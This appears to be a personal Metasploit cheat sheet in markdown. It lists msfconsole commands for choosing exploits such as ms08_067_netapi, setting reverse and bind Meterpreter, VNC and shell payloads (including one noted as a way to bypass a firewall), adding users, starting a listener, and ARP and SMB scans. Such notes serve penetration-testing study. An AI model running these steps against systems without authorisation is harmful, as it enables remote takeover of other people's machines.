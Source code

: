 sudo msfdb init && msfconsole

Exploits:

	search exploit/osx
	
	use exploit/osx/...
	show info
	
	options
	set options value
	
	set payload [TAB] (payload compatible with exploit)
	set payload osx/meterpreter/reverse_tcp
	options
	show info (payload max space, rank)
	
	exploit (run exploit & active payload)
	
	use exploit/windows/smb/ms08_067_netapi (smb exploit)
	
	use exploit/multi/handler (listener)

### Payloads

Add user:

	set payload windows/adduser
	options
	show target (if don't autodetect)
	set target ...

### Meterpreter

	set payload windows/meterpreter/bind_tcp (direct connection)
	set payload windows/meterpreter/reverse_tcp (reverse connection (bypass firewall))
	set payload windows/meterpreter/reverse_http (reverse connection - tunelize on http port)

### VncInject

	set payload windows/vncinject/reverse_tcp (reverse connection -  remote access (visible on target screen))

### Shell

	set payload windows/shell/reverse_tcp (reverse connection - light payload - shell (used to execute meterpreter))
	send shell on background

### Auxilary

https://www.offensive-security.com/metasploit-unleashed/auxiliary-module-reference/

```bash
use auxilary/scanner/discovery/arp_sweep (scanner ARP)
show_info
set rhosts 10.1.1.0/24
run

use auxilary/scanner/smb/pipe_auditor (check if smb is active to run exploit like netapi)
```
